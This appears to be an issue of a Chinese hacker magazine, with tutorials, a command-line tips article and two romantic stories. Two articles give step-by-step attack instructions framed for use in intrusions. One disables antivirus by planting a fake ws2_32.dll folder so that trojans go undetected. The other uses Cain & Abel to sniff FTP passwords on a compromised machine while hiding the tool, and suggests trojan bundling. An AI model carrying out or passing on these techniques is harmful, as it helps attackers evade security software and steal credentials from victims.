









```

把代码全复制进来，把最下面的execute替换为：document.getElementById("textareaID").innerText=，在代码最尾部输入</SCRIPT>跟上面的对应。然后另存为文件名.htm（或html），打开看看结果是什么？如图5。
怎么样呢？看到我们很熟悉的代码了吧。关于代码的分析，我不做了，大家自己研究下吧。
[文章中提到的工具以及网页在光盘中有收录]

## 编辑点评：

对于VBS的加密与解密其实是最显智慧的，稍微做下手动就可以过杀软，有时候我们逆向分析一下别人的东西，收获其实还不错！不过，前提是你得有扎实的相关知识哦！
## 封杀杀软——由ws2_32.dll引发的

OWENHU [O.S.T]

**从本文你可以学到：**
- 利用ws2_32.dll使软件无法启动

## 一、引子

一日，本人正准备上QQ，结果刚点开图标，就出现了问题，如图1。
不用说也知道，这QQ文件夹的配置文件被更改了。重装QQ？这不是解决问题的最佳方法……只有找到根本原因，才能解决问题。于是，我便开始了我的“纠错”行动……

## 二、正文

先看看有什么文件生成吧！打开查找，看看今天新建了哪些文件，如图2。
因为是QQ的问题，我直接在QQ文件夹里找。不一会儿就找到了一个可疑文件，如图3。名字叫ws2_32.dll，看样子像是个动态链接库文件。既然可疑，马上请教Google大叔……经过一番搜索，找到以下资料：
**ws2_32 - ws2_32.dll - DLL 文件信息**
DLL 文件：ws2_32 或者 ws2_32.dll
DLL 名称：WinSock 2.0 32bit
描述：ws2_32.dll 是 Windows Sockets 应用程序接口，用于支持 Internet 和网络应用程序。
属于：Windows Sockets
系统 DLL 文件：是
常见错误：File Not Found, Missing File, Exception Errors

看来问题就出在这里！找到这个文件，发现居然是个文件夹，而且里面是空的。这下原因就清楚了，QQ 在运行时会自动调用 ws2_32.dll 文件。ws2_32.dll 是个动态链接库文件，一般位于系统文件夹中，而 Windows 在查找动态链接库文件时，会先在当前目录搜索（启动 QQ 就会优先在 QQ 文件夹中搜索），如果没有找到然后才会搜索 Windows 所在的目录，如果还是没有就会搜索 system32 和 system 目录。而这个新建的文件夹里面是空的，根本就不具有真正的 ws2_32.dll 文件所具有的功能，所以 QQ 当然不能运行了。我们把它删掉再上 QQ，一切正常！看来这就是根本原因！
## 三、继续

文章到这里还没完，还记得那句话吗？“ws2_32.dll 用于支持 Internet 和网络应用程序”。既然这样，我们可以把它用在别的地方，首先我想到了 360 卫士。360 卫士被保险箱保护，能成功吗？立刻实验，果然 360 也摆脱不了，如图 4。

既然这样，那杀毒软件是否能够畅通无阻呢？接着，我对卡巴斯基 7.0 进行了实验，在卡巴的文件夹里也放进了 ws2_32.dll 文件。退出卡巴再打开，发现已经打不开了（但是没有弹出任何提示，不知道是什么原因）！那么系统启动时杀毒软件的加载项能够阻止吗？现在我就来试验一下。打开卡巴斯基 7.0 的文件夹，新建文件夹，名字为 ws2_32.dll，重启电脑，卡巴斯基果然没有启动！连任务管理器里都找不到它的影子，如图 5。

就是说，只要在杀毒软件的文件夹里有一个这样的文件，杀毒软件就相当于被封杀了！这样一来，马儿和蠕虫就会畅通无阻，就算没做免杀也不会被杀软发现了。同时，右键里的“杀毒”功能也形同虚设了。

## 四、结尾

文章主要是想说明，只要明白原理，一个看似不起眼的小东西往往能达到意想不到的效果。所以我建议各位看官一定要显示隐藏文件，平时用 USER 用户登录，而应用程序的文件夹用管理员用户设定，这样那些想建 ws2_32.dll 文件封杀软件的不轨之徒也无机可乘了。当然，如果你想禁用某种功能，也可以通过这种方法达到（比如禁止公司的员工使用 QQ 聊天或用浏览器上网）。是不是很方便呢？
文章就到这里了，如果有什么问题，请到 NOHACK 论坛来找我，我的 ID：OWENHU，感谢夜翼对我的支持！

## 编辑点评：

正如作者所说，一个看似不起眼的小东西往往能达到意想不到的效果。看过这篇文章，让我想起来了映像劫持，这个似乎比映像劫持的效果更明显，而且更简单！只要大家肯动脑筋，小问题里面或许会有一个很大的秘密哦！

# 几个命令的高级应用

■冰的原点[L.S.T]

**从本文你可以学到：**
- CMD 命令行下的几个命令的高级应用

习惯了入侵或者杀毒的朋友，应该经常会在 cmd 命令行下工作吧。比如熟悉系统的朋友会在cmd 下输入命令 netstat -an 以便查看本机开了哪些端口，自己又和外面哪些端口相连，如图 1。
这会显示本机在现行状态下有哪些连接，哪些连接处在连接状态，哪些处在断开状态，对外连接的远程地址等都可以看得一目了然。但这里有一个问题，就是如果有些病毒插入到一些进程中进行对外连接的话，我们光凭这一点还是无法判断的，要是我们知道对外连接所对应的相应的进程或者 PID 值就会更容易分辨了。也许我们可以用一些工具来代替这项工作，但用系统自带的应该更能加强我们手工鉴别能力，而且 netstat 这个命令完全可以胜任这一工作。首先我们需要了解一下 netstat 的几个常用的参数：

- -a 显示所有连接和监听端口。
- -b 显示包含于创建每个连接或监听端口的可执行组件。在某些情况下已知可执行组件拥有多个独立组件，并且在这些情况下包含于创建连接或监听端口的组件序列被显示。这种情况下，可执行组件名在底部的 [] 中，顶部是其调用的组件。等等，直到 TCP/IP 部分。注意此选项可能需要很长时间，如果没有足够权限可能失败。
- -n 以数字形式显示地址和端口号。
- -o 显示与每个连接相关的所属进程 ID。

各参数在用的时候没有严格的顺序，而且上面来自 ms 的解释说的也很清楚了，让我们来看一下它的效果吧，在命令行下输入：netstat -a -b -n -o，如图 2。
图 2

这个效果是不是比前一个命令更清楚，更有说服力？下面我们再来看一下 tasklist 命令？tasklist 这个命令行工具显示应用程序和本地或远程系统上运行的相关任务 / 进程的列表。在 cmd 下输入 tasklist，效果如图 3。
图 3

正如前面所述，而且这种情况我也遇到好多次，明明知道这个 DLL 文件是毒，可就是删除不了（当然用工具，如冰刃删除除外），那是因为有些病毒把 dll 文件插入到其它正常的进程中，这样我们不可以删除一个正在使用的文件了，不过 tasklist 也可以做到，其参数 -m 的描述如下：

/M [module] 列出所有其中符合指定模式名的 DLL 模块的所有任务。
图 4

如果没有指定模块名，则显示每个任务加载的所有模块。

我们在命令行下输入 tasklist -m，效果如图 4 所示。
而且我们还可以利用这个参数来查看某个 DLL 文件被哪些进程调用了，就拿图 4 中的 kernel32.dll 来示例下吧，用法如下：tasklist -m kernel32.dll，这很显然是一个系统的 dll 文件了，调用它的应该有很多项了，如图 5。
图 5

怎么样？效果很明显吧，知道哪些文件调用了它，就可以先结束了进程然后再删除它。好了，我就仅仅举这两个例子来说明下吧，其实微软自带的东西还是很强大的，只不过我们没有发现而已。为什么我只举这两个例子而不把其它的例子也一起说明下呢？因为没有这个必要了，大家如果想知道某个命令的高级应用，只需要知道它的帮助参数就行了。如想知道 tasklist 的其它用法，只需要在 cmd 下输入：tasklist /?，相信你自己也会发现一些你以前没有发现的东西。好了，就到这里，有什么不太明白的，可以到论坛找我，我的 ID是冰的原点。

## 编辑点评：

说白了，高级应用就是那些我们不太常用却很有用的东西，文章中提到的只是冰山一角，大家多研究下命令行下的各种命令，收获其实还是挺大的。
**通过本文你可以学习到：**
- 1、获取 Ftp 密码的另外一种思路
- 2、使用 Cain 来获取 Ftp 密码

本案例适用于两种情况，一种是使用 Ftp 软件时间长了，忘记 Ftp 的密码，而此时又需要知道 Ftp 的用户名和密码，Ftp 的用户名是明文，而 Ftp 密码是以多个“*”显示；另外一种情况是入侵过程中获取了某种 Ftp 完整软件，也就是该 Ftp 软件中包含了用户使用 Ftp 的账号和密码等信息，只要将该软件整个文件夹复制到本地或者将配置文件复制到本地即可进行使用。但为了满足好奇心，往往需要知道该账号或者配置文件中所有账号对应的密码。虽然可以通过软件中的导入等功能将 Ftp 的账号等信息导入到本地 Ftp 软件中进行使用，但不如自己明明白白的好。随着 Ftp 软件开发技术的提高，大部分 Ftp 软件最新版本中已经屏蔽了使用星号密码查看器来查看 Ftp 软件中的账号对应的密码，这个时候就只能使用 Cain 软件来获取 Ftp 密码。

## （一）安装 Cain 软件
图 1 设置

Cain 全称是“Cain & Abel”，其最新版本为 4.19.4，其公司站点地址是 http://www.oxid.it，可以到该公司站点下载该软件。下载完毕后按照正常软件安装的流程进行安装，Cain 安装结束后，要求安装 WinPcap抓包软件，安装完毕后即可使用。

## （二）设置 Cain 软件

运行 Cain 软件后，在菜单中选择“Configure”，接着会出现“Configuration Dialog”窗口，如图 1 所示。
在其中选择用于上网的网卡，如本例选择 IP 地址为“125.*.*.*”，然后选窗口下方的“Start Sniffer on start”和“Start ARP on start”复选框，最后单击“确定”完成 Cain 设置。

### (三) 开始监听

回到主界面后，如图 2 所示。
单击主界面窗口左上角下的网卡和圆形图形按钮，开始监听。

### (四) 运行 Ftp 客户端软件

在肉鸡上（本机）运行 Ftp 客户端软件，在本例中使用的是 FlashFTP 软件，运行 FlashFTP 软件后，依次连接站点中的 Ftp 主机地址，如果用户名和密码正确，则会进入 Ftp 服务器的相应目录，如图 3 所示。
该服务器为一个电影服务器，上面巨多电影，下载速度还挺快，真爽！

### (五) 查看监听结果

在 Cain 主窗口中单击“Sniffer”标签，然后再在下方选择“Passwords”标签，就会在表格中看到 Cain 软件 Sniffer 的结果，如图 4 所示。

Ftp Server 地址、username 以及密码一目了然。下面介绍下技巧：

- 1. 在查看时，先看 Cain 主界面的左边窗口，在 Passwords 下面为 sniffer 的结果，它是一个树形结构，在“(0)”中显示的是监听结果，本例中有监听结果的是“Ftp (4)”，表示监听到了 4 个 Ftp 密码记录。
- 2. 单击菜单中的“View” - “Hide”命令或者使用“ALT+Del”快捷键可以隐藏 Cain 监听窗口，在计算机上看不到 Cain 的任何信息，因此可以达到隐藏的目的。
- 3. Cain 的监听结果会保存在 Cain 的安装目录下的对应 lst 文件中，例如本例中监听到的是 ftp 密码，则结果会保存在 Ftp.lst 文件中，打开该文件，如图 5 所示。

可以看到 Ftp 服务器地址、客户端地址、用户名和密码。在查看时按照大小进行排序可以很方便的找出有监听结果的 Lst 文件，将其复制到本地即可知道监听结果。
### (六) 总结与探讨

Cain 是一款强大的监听软件，使用它可以干很多事情，除了密码监听外，它还可以进行密码破解等。在入侵过程中，一旦知道对方使用 CuteFTP、FlashXP 等 Ftp 客户端软件，则可以将其整个目录以及配置文件复制到本地，通过在本地还原或者得到其密码来获取更多的信息，甚至直接或者间接提升权限。这个虽然没有 Serv-U 提升权限那么直接，但是结合社会工程学进行木马捆绑诱骗，其效果还是不错的，是入侵过程中无法突破时的一盏明灯！

> **编辑点评：**
> 很详细的一篇适合初学者看的文章，内容已经很仔细了，看不懂的就要多多看多实践了。

# 黑客小说
## 黑色六月 特洛伊

图 QYXK-whlw

经常用 GCC 编译程序，用 OpenOffice 编辑文章，也经常用 EMACS 写东西，几乎天天都在使用自由软件……可这一次，我终于在清华大学亲眼看到了自由软件的倡导者——Richard Stallman 本人！2008 年哲思自由软件峰会，北京站……在很多《黑客手册》的文章中，或多或少都会提到他。也许大家对 Linux 创始人 Linus Torvalds 的崇拜更多一些，可正是有了 Richard Stallman 自由开源的编译器和开发工具，才使得 Linux 被创造出来，更重要的是，正是在他领导的 GNU 下，Linux 才得到了长足的发展。

Richard Stallman 是个思路清晰，语气和蔼的大叔。过着简约朴素的生活，身上没有穿什么名牌，也没有什么装饰。他为我们技术人员创造了很多免费而优秀的工具，以便让我们能更容易的从事我们的工作，更好的养活自己。而且他一手发起的 GNU 计划，更是让自由，平等，开放，共享的黑客精神发挥到了极致。这里借《黑客手册》，向这位宗师级黑客致敬！

跃：
最近还好吗？我故意对你说我手机停机了，是不想让你为我分心，全身心的投入到高考中去，你要知道高考不像抓肉鸡、种木马什么的，它对你很重要，十几年的拼搏不全是为了这天吗？

跃，真的对不起你了，是我误解了你，在我们相识的日子里，好像我从来都没有错，每次都是向我道歉哄我开心。记得我和第一个男朋友分手的时候，你说是因为你存在的缘故，使我没能专心待他，你劝我重新开始，因此给我花心的理由加了个保护的壳，而我好友的怨恨都加在了你的头上，你被冤成了第三者。曾几何时我和第二个男友爱的死去活来，后来因为他太花心终究也没能走到爱的尽头，那时我还向你讨教该怎样第一次和他接吻……却不知道你的无奈和伤心。跃，你太傻了，你对我的爱，是常人难以做到的伟大与无私。后来遇到了“峰”，我本对爱情失去了信心，最后还是经不起爱情的诱惑被爱情征服，正式向你宣布他是我第三任男友，这种不光彩的消息也只能向你传达。在过生日的时候你送了我一只小熊，“峰”得知是你送的以后，不是很高兴，为了能让他高兴，我把那只可怜小熊从四楼窗口扔了下去，事后“python”告诉我，那是你用暑假帮人修电脑积攒下来的零花钱，挑了多少个精品屋给我寻来的。听到他的一番话，我很后悔，哭了一夜。感觉怪怪的，总是不敢面对你，我知道是我错了，哭着给你写信，但没有勇气寄出去。没过多长时间，我和“峰”的关系也不了了之，以后就更不敢面对你了。总觉得我是个很花心，很不负责任的人，还把所有的错都加在别人身上，现在想来是我太自私了。

七年前在那个刚被军训折磨完的早晨，你对我说“我喜欢你”，那时我们都还是天真的孩子，后来你送给我一首诗：

> 我思白云飘悠悠，爱雨四时虽不同。
> 陈史王孙皆离去，秋雁南飞独亭中。
> 宇宙虽大志难容，一世情缘一刀横。
> 万般无奈归红尘，年与时迟风雨终。

是首藏头诗，我答应只和你做朋友，以为拒绝你你就会和别的女孩交往，就没再问你些什么，只是知道你对我真的很好。时间过的真快，三年的初中终于游荡到中考的边缘，很后悔没能考上重点高中，索性不读了，随亲戚去了青岛打工。闲来无事，积攒了半年工资买了台电脑，心疼了几天。可是电脑不听我的，老是跟我作对，生气躺在床上看同学录，一眼就看到了你‘跃’，没有 QQ 只有 MSN，也没来得及和你叙旧，直接给你下了圣旨，我的电脑就由你负责了。你说我那个版本的 WindowsXP 的 Ghost 有漏洞，问题就出在 3389 端口，你远程连接后给我打了不少补丁，结果我那些装了相同版本 XP 的朋友电脑都出了问题，只有我的幸免于难。很感激你，跟你通电话，又听到了你那沙哑的声音：

“燕儿我喜欢你。”开什么玩笑，我一句话就把你拒绝于千里之外。

那天无意间听你朋友聊到你，他说：“你为了证明和一个女孩的关系，硬是用棍子把自己的手打折了”，还有你刚写的一首诗：

> ‘千寻为谁伊人秀，黑客无心望花楼，日薄留取痴梦辞，冰残玉轮缺，星零花葬魂，蝶舞春风依旧，她去山高万里，恨微微，情绵绵，倚海凭狂澜，无疑回眸江水流，碧海连天数沙鸥。’

“‘千寻为谁’是你的 QQ 昵称吧？”他问我，我无语下了线躺到床上，回忆这几年的感情经历，只有你给我的才唤作爱，他们的爱太自私，只能称得上欲望。你的爱是只要我快乐，甚至可以让我牵着别人的手去遛街，跃，那一夜我真的哭了，为你而哭。听着窗外的雨声寂寞的流着泪，我好想趴在你怀里大哭一场，紧紧的把你抱住，一生一世一辈子都不放手：夜深聆听风雨声，怜四月桐花正浓，风意不止雨未休，坠红零落翩翩飘香，残花满地，谁人共惜春，听雨弹奏相思曲。

我们的云雨也正是这时候开始的，就这样我爱了你两个月，而却因为以前我犯的错而羞于开口。跃，这次我会用一生守候你，什么也不能改变我对你的爱，我也知道你依然爱我，下面的话就由我来替你说了：燕儿，如果有一天你累了，或是被丢弃在某个角落里，我会捡起来擦干净放在胸口珍惜一辈子。那次和你视频，发现你桌上堆满了《黑客手册》，我想我把文章发表在这里，一定会给你个很大的惊喜，我相信你也一定会看到的，因为你长的就很黑嘛，呵呵，燕儿聪明吧？对了，我学了两道韩式菜肴，等你高考结束了，我就回去做给你吃……

愿你在“黑手”中茁壮成长，考上理想的大学。跃：我永远爱你。

愿成为你最美新娘的 燕儿
2008.6.1 凌晨1点

> **编辑点评 ：**
> 今年六月，高考，国内大部份地区虽然并无酷暑，不过也并非黑色六月。也许，那些正在花季雨季中的青少年朋友对这个六月的体会更特别吧。黑色六月特洛伊，火红九月笑嘻嘻。诗写的很不错，希望燕儿和跃过得幸福。

# 一个时间段

图 荣荣心情女人

泰终于回到了自己的家乡，带着一身的伤。沧桑过后，泰变得很安静，成了父母心中一直期望的乖女儿。

欣喜之后的母亲开始担心，一个不出房门的女儿，一个只懂微笑的女儿，一个失去了大喜大悲的女儿，除了在自己的房间对着电脑敲击文字和玩些网络游戏，就没有了其他任何爱好。尝试着叫女儿去逛街，她会去，可仍然是用淡淡的微笑回应母亲的询问。像隔绝了世俗，戴了张讨喜的面具木然生存。

过年的时候，泰去了外婆和姑姑家拜年，其他的亲戚一应拒绝。家里来客的时候呆在自己房间上网，不去招呼任何人，只是在客人走后出来帮母亲收拾厨房。

“泰，有个酒店招总台，你去试试好吗？你这样老在家里，我和你爸爸都会很担心的。”母亲终于忍不住了。泰敲击键盘的手楞了一下，简简单单回答了两个字：好的。

酒店总台的工作对泰来说太过简单，从应聘到实习只用了一个下午的时间。老板让泰第二天上班，她稍有迟疑，但还是答应了下来。

凌晨 6 点 50 分起床，洗脸漱口后在家里呆到 7 点 15 分，慢慢步行到上班的酒店，开始一天的工作。泰对于这份工作并没有热情，只是单纯的不想父母担心。因为工作时间不是很长，两班倒，下午三点准时换班，虽说不喜欢，倒也可以接受，所以份内的事做的还是不错。

时间久了，看多了似乎熟悉但又陌生的人群，泰慢慢的学会笑了，偶尔也会跟同事开几句无伤大雅的玩笑。每天下班回家跟母亲的话也多了起来，也会跟爸爸聊天，聊这个城市的整体素质，聊现在的年轻人，说自己在工作中遇见的好笑的人和事。但在客厅坐的时间不会超过半小时，很快会回到自己的卧室，在卧房里，在小小的显示屏后面，有泰可以感觉安全温暖的地方。

上了半个月的班，对一些熟悉的客人开始慢慢有了印象。有一天，泰看见一个熟悉的男人在晚上 7 点左右的时候来开房，瘦高的个子，整齐干净，修长的手指。之前已经在这里住过很多次了。泰说你可真幸运，刚好还剩下最后一间。那人笑：“如果没有的话我今天可就得睡马路了。”泰略显诧异：“为什么不回家？”

“早上要早起，家里那边的车不怎么方便。不说了，今天实在太累，得好好洗澡休息了，你慢忙。”泰久久的望着那瘦高男子的背影出神，他像是不属于这个城市的男子，那笑容和气质是在这个地方很难找寻出来的。

换早班，早上9点来退房的客人并不多。泰在看安妮宝贝的《莲花》，有人下楼的声音，她抬头，那瘦高男子颔首微笑，推门而去。下午总台进个新手，重新分班，因为要给新手实践的机会，泰被安排做晚班。对于上什么班，泰倒是无所谓，只是这段时间因为上班，生活作息开始正常，很久没有去碰电脑了。

飞快的赶回家以后，泰对着群里和游戏里的朋友发了几个兴奋的表情：“我决定今天通宵哦。”真的是通宵，而且是上到头晕脑胀，泪水洒满显示屏才睡觉。下午三点，强撑着上班。一个晚上的睡眠并不足以影响这简单的工作，只是心情不是很好，做不到表情淡然，微笑开始减少。想着安妮宝贝的小说，心开始作痛。期间陆续会有人来开房，泰突然有点疲倦……直到看见那修长手指递过来的房费：“想问你件事，如果我长期住在这的话，你们酒店有没有折扣打？”泰接过钱把资料输入电脑，用很公式化的声音说道：“不好意思，这已经是最低价了。因为酒店这段时间要装修，所以现在已经把房价调到最低了。”“这样啊，呵呵，那没关系。”接过房卡和押金条，在总台边的沙发上坐了下来，自然的把烟和打火机放到扶手，把烟灰缸拿到手边弹烟灰。

他开始和泰聊男人的责任心，说男人的责任是用来做的，不是用来说的。泰的心突然一紧，曾经跟她说过这句话的那个男子已经不知道哪里去了，又是一个说承诺是用来做的男子。泰突兀的问了一句：“你身高一米八？”

“哈，你眼力可真不错。”泰默然，又一个一米八的男子，瘦高，强势，坚毅，不经意的话语显现出强烈的个性。费力的跳转话题：“好想出去走走，爬爬山，在这个地方都让我快闷出病了。”

“看我这几天有没有时间，如果不忙的话我陪你去吧。”男人的轻描淡写让泰的心漏了一拍。如果是注定，那么，逃避也是枉然。男子接了电话出去，他在泰快下班的时候进房间休息，依旧颔首微笑，彬彬有礼。

泰拖着疲惫的身子回到家，在电脑前坐了15分钟后打开电脑：“如果宿命给我的一直是这样的安排，我该承受还是拒绝？”没有理会网络中所有人的叫喊，泰直接关机睡觉。

瘦高男子每天下午开房的时候都会陪泰坐一会，中间会接无数个电话，走的时候会放一瓶饮料在泰的面前。泰也习惯性的每天为他留下最好的房间。最后一个晚班，房间开得很快，剩下最后一间。又有人来，泰因为职业使然习惯性的把房开掉。过后又开始着急，想到那男子来了该怎么办，又想彼此之间并无承诺，稍微放下心来。电话开始响，男子的声音，问她还有没有房间。泰说抱歉，刚开完最后一间。挂掉电话，转头望向玻璃门，看见那男子往里走，刹那间那男子已走到面前站定：“把我的电话留给你，记得以后每天帮我预留一间房哦。”泰淡淡的笑：“我明天换班。”“那你把手机号码给我吧。”

泰略带迟疑，还是报了号码。看着他储存在手机电话本里，转身准备离去，却正好遇到有人退房。男子欣喜的定了下来，却不急着上楼，依旧坐在总台沙发上和泰说话。说自己是开赌场的，有8个合伙人，应该是这个城市生意最好的一家，又说起自己以前在外地的工作，很多的专业术语。直到客房服务员打电话过来询问，他才起身，去外面买了两瓶饮料，一瓶放在泰的面前，一瓶自己带上楼。

早上退房，见那男子出去，未见退房卡和押金，虽然奇怪却没有多问。直到下班时间也未见那男子，房间里也没有人。这种情况以前也曾有过，一般都是当客人忘记退房来处理。泰想想还是打了个电话过去，那男子的声音从一大片嘈杂声中传过来，“我晚点过来交房费，算续住可以吗？”没等泰回答那边电话已经断了。泰办好交接手续下班回家，到家没半个小时就有电话来，男子轻松的语调：“在家玩什么？出来坐坐喝杯茶吧？”

“不了，我在上网。要不QQ聊吧。”

“那好吧，我告诉你我的QQ号码，我现在就去网吧。”

泰在添加分组的时候想了想，还是把他放到了朋友栏。很快那边弹来消息：出去喝茶。泰回：不想去，到家就不想动的。那边笑：你不怕我怕占你便宜吧。泰有点恼怒：什么叫占便宜？没那想法怎么占？而且占便宜也分怎么说，刻意的作为就是，情愿的就应该不算吧。头像闪动：呵呵，你说的那么复杂，我不懂。泰笑：装傻？那该怎么说你才听的懂？”

那边打字速度不快：我是真的不知道，要不你跟我解释下。我就是那么随便一说，无心的。你可别想歪了。泰想吐血：什么叫我想歪了，一般占便宜的意思不就是一个男人想对一个女人做点什么吗？如果我想错了，那是你误导我的原因。那边的头像闪了闪：有事先下，明天约你去玩哦。我真的没别的什么想法，只是感觉这城市找个可以说话的人比较困难。泰冷笑，关掉QQ进入游戏，从王城杀到凤凰，红名三天，坐牢挂机写日志。

第二天，泰心中开始有所期待。那男子上线后却很快下线，说有事。第三天刚下班打开家门，电话就响，又是他，泰接起后依旧回绝。那男子说输钱了郁闷，想找个人可以说话的人说话而已。泰一时有点心动，但还是嘴硬：“穿着睡衣怎么出去。”

“换一下好吗？我在房间等你。”说完下线。衣服换了一个小时，终于还是决定去了。走时打电话给那男子，说一直都在等着。10分钟的路程走了20分钟，深呼吸按门铃，房门竟然没关。泰推开虚掩的门，男子躺在床上，拿烟的手像是在指点江山，对着她挥手：坐。

拘谨的泰在神色自若的男子面前像是一只待宰的羔羊。男子说我帮你按摩吧。她想离开，可已经来不及。男子似乎经验老道，一只手便解开了泰的内衣，随后封上泰的唇。男子的气息涌向泰，她全身颤栗不能自己。男子的冲击似乎带有魔咒，把泰禁锢很久的情欲全部唤醒。躺在床上，她的手抚上男子的脸，棱角分明，气焰嚣张的显示出主人的绝对支配欲。泰穿衣准备离开，那男子并不挽留，亦穿衣，两人在路口分手。

